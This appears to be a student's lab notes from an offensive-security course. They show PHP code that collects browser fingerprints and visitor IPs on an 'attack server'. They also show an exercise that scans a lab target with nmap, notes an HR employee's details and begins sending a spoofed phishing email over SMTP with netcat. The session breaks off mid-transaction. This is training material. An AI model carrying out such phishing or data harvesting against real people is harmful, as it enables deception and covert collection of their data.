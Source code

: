The output string is sent to **js.php** via a POST request. And the PHP code that processes the POST request is as follows:
```php
# Need to create this file in the /var/www/html/fingerprint directory
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fingerprint/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```
Since we are using the FILE_APPEND flag, this allows us to store multiple fingerprints to the same file. In order for this to work, we need to allow the Apache *www-data* user to write to the fp directory.
```bash
sudo chown www-data:www-data fp
```

```bash
sudo systemctl start apache2
```

This modification makes sure that no information is displayed on the victim's browser, but only the text that we choose. The information extracted is then sent to our attack server for storage.
***
# Topical Exercises
4.  On the target VM #1 enumerate the victim's company website and identify the person working in HR. The objective of this challenge is to mount a social engineering attack against HR. The victim machine is running an SMTP server that can be used to send company emails. The SMTP server allows anonymous logins. Research how to interact with the SMTP server using Netcat. Then, send a phishing email to the HR employee that contains keywords "job application". Include a link to the attacker's web server in the email body. Once the victim clicks on the malicious link, capture the browser's user-agent string. The flag is contained within the user-agent string.
```bash
└─$ sudo nmap -sS 192.168.168.55               
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-03 09:10 EST
Nmap scan report for 192.168.168.55
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
25/tcp   open  smtp
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```
![[Pasted image 20230103221132.png]]
- Layla Hale 
- HR Generalist
- lhale@victim
- 202-555-0182
```bash
┌──(kali㉿kali)-[/tmp]
└─$ nc -Cv 192.168.168.55 25          
192.168.168.55: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.168.55] 25 (smtp) open
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Tue, 3 Jan 2023 09:53:18 -0500 
HELO 192.168.168.55
250 VICTIM Hello [192.168.119.168]
MAIL FROM:<tharper@victim>
250 2.1.0 tharper@victim....Sender OK
RCPT TO:<lhale@victim> 
```